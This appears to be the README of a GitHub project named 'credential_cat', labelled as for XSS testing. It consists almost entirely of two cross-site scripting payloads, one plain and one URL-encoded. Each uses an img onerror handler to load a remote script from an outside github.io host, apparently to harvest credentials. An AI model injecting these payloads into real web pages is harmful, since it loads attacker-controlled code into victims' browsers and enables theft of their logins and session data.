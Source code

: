 # credential_cat

#### Just for XSS testig

### example payload:
> &lt;img src="jiji://a/404.png" width="1px" height="1px" onerror=" var s = document.createElement('script');s.src = 'https://astals.github.io/credential_cat/credential_cat.js' ;$('head').append(s);"&gt;

> &lt;img src="jiji://a/404.png" width="1px" height="1px" onerror=" var%20s%20%3D%20document.createElement(%27script%27)%3Bs.src%20%3D%20%27https%3A%2F%2Fastals.github.io%2Fcredential_cat%2Fcredential_cat.js%27%3Bdocument.getElementsByTagName(%27head%27)%5B0%5D.appendChild(s)%3B"&gt;
